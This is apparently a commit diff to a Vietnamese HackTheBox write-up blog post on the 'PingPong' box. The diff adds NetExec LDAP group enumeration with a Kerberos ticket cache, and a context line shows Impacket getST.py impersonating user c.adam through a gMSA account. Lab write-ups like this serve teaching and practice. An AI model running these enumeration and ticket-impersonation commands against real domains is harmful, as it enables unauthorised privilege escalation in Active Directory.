

Before and after one commit to Luv3rie/Luv3rie.github.io, a Jekyll site: the page built from _posts/2026-11-12-htb-pingpong.md, in a window 1280 px wide and 900 px high, scrolled down 16876 px. Shown: the whole window, without its empty margins (256-1266 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix htb-pingpong 3

````diff
--- a/_posts/2026-11-12-htb-pingpong.md
+++ b/_posts/2026-11-12-htb-pingpong.md
@@ -794,6 +794,17 @@ Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 Dạo quanh khu rừng thì tìm được 2 người thuộc nhóm `Database Admins`, mục tiêu đã được xác định.
 
 ```bash
+~/HTB/Windows/PingPong $ nxc ldap DC2 -k --use-kcache --groups
+<SNIP>
+LDAP        DC2             389    DC2              gMSA Managers                            1
+LDAP        DC2             389    DC2              IT Service Admins                        3
+LDAP        DC2             389    DC2              Database Admins                          2
+LDAP        DC2             389    DC2              SQLServer2005SQLBrowserUser$DC2          0         Members in the group have the required access and privileges to be assigned as the log on account for the associated instance of SQL Server Browser.
+~/HTB/Windows/PingPong $ nxc ldap DC2 -k --use-kcache --groups "database admins"
+LDAP        DC2             389    DC2              [*] None (name:DC2) (domain:PONG.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
+LDAP        DC2             389    DC2              [+] PONG.HTB\pong_gmsa$ from ccache
+LDAP        DC2             389    DC2              C.Adam
+LDAP        DC2             389    DC2              P.Reiner
 ~/HTB/Windows/PingPong $ getST.py pong.htb/pong_gmsa$ -k -no-pass -spn mssqlsvc/DC2 -impersonate c.adam
 Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 
````
